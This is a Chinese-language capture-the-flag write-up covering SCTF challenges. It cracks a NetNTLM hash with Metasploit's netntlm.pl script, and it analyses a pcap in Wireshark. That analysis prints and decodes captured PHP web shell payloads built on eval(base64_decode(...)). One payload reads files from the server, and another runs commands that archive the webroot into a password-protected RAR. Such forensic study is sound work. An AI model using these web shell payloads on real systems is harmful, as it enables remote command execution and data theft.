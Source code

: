 user::domain:9e94258a03356914b15929fa1d2e290fab9c8f9f01999448:013f3cb06ba848f98a6ae6cb4a76477c5ba4e45cda73b475:1122334455667788

然后去Kali下的metasploit-framework下跑netntlm.pl脚本：

winson@kali:/usr/share/metasploit-framework/data/john/run.linux.x64.mmx$

sudo perl ./netntlm.pl --seed "NETLMIS" --file /tmp/john_netntlm

跑完第一遍得到NETLMIS666，这个是不区分大小写的，我们还需要跑第二遍，第二遍得到NetLMis666，因此Flag为SCTF{NetLMis666}。

MISC400A
=====

Wireshark打开pcap文件，输入过滤器“tcp contains ".rar"”，发现一个编号为10192的POST数据包，参数经过Unescape解码后得到：

```
yo=@eval(base64_decode($_POST[z0]));&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskRj1nZXRfbWFnaWNfcXVvdGVzX2dwYygpP3N0cmlwc2xhc2hlcygkX1BPU1RbInoxIl0pOiRfUE9TVFsiejEiXTskZnA9QGZvcGVuKCRGLCJyIik7aWYoQGZnZXRjKCRmcCkpe0BmY2xvc2UoJGZwKTtAcmVhZGZpbGUoJEYpO31lbHNle2VjaG8oIkVSUk9SOi8vIENhbiBOb3QgUmVhZCIpO307ZWNobygifDwtIik7ZGllKCk7&z1=C:\\inetpub\\wwwroot\\backup\\wwwroot.rar

```

其中z0参数经过Base64解码后得到：

```
@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$F=get_magic_quotes_gpc()?stripslashes($_POST["z1"]):$_POST["z1"];$fp=@fopen($F,"r");if(@fgetc($fp)){@fclose($fp);@readfile($F);}else{echo("ERROR:// Can Not Read");};echo("|<-");die();

```

可以知道这里是读取了wwwroot.rar这个压缩包文件，在Wireshark将Rar给Dump出来，解压发现需要密码。因为rar文件比较大，所以10192附近有很多TCP的数据包，所以我们使用过滤器“http”进行筛选之后再观察10192附近的数据包，发现了很多POST数据包。

从10192开始，往上一个一个的看POST数据包，发现编号9997的数据包参数经过Unescape解码后得到：

```
yo=@eval(base64_decode($_POST[z0]));&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskcD1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JHM9YmFzZTY0X2RlY29kZSgkX1BPU1RbInoyIl0pOyRkPWRpcm5hbWUoJF9TRVJWRVJbIlNDUklQVF9GSUxFTkFNRSJdKTskYz1zdWJzdHIoJGQsMCwxKT09Ii8iPyItYyBcInskc31cIiI6Ii9jIFwieyRzfVwiIjskcj0ieyRwfSB7JGN9IjtAc3lzdGVtKCRyLiIgMj4mMSIsJHJldCk7cHJpbnQgKCRyZXQhPTApPyIKcmV0PXskcmV0fQoiOiIiOztlY2hvKCJ8PC0iKTtkaWUoKTs=&z1=Y21k&z2=Y2QgL2QgImM6XGluZXRwdWJcd3d3cm9vdFwiJkM6XHByb2dyYX4xXFdpblJBUlxyYXIgYSBDOlxJbmV0cHViXHd3d3Jvb3RcYmFja3VwXHd3d3Jvb3QucmFyIEM6XEluZXRwdWJcd3d3cm9vdFxiYWNrdXBcMS5naWYgLWhwSkpCb29tJmVjaG8gW1NdJmNkJmVjaG8gW0Vd

```

对参数进行Base64解码得到：

```
yo=@eval(base64_decode($_POST[z0]));&z0=@ini_set("display_errors","0");@set_time_limit(0);@set_magic_quotes_runtime(0);echo("->|");;$p=base64_decode($_POST["z1"]);$s=base64_decode($_POST["z2"]);$d=dirname($_SERVER["SCRIPT_FILENAME"]);$c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";$r="{$p} {$c}";@system($r." 2>&1",$ret);print ($ret!=0)?"
ret={$ret}
":"";;echo("|<-");die();&z1=cmd&z2=cd /d "c:\inetpub\wwwroot\"&C:\progra~1\WinRAR\rar a C:\Inetpub\wwwroot\backup\wwwroot.rar C:\Inetpub\wwwroot\backup\1.gif -hpJJBoom&echo [S]&cd&echo [E]

```
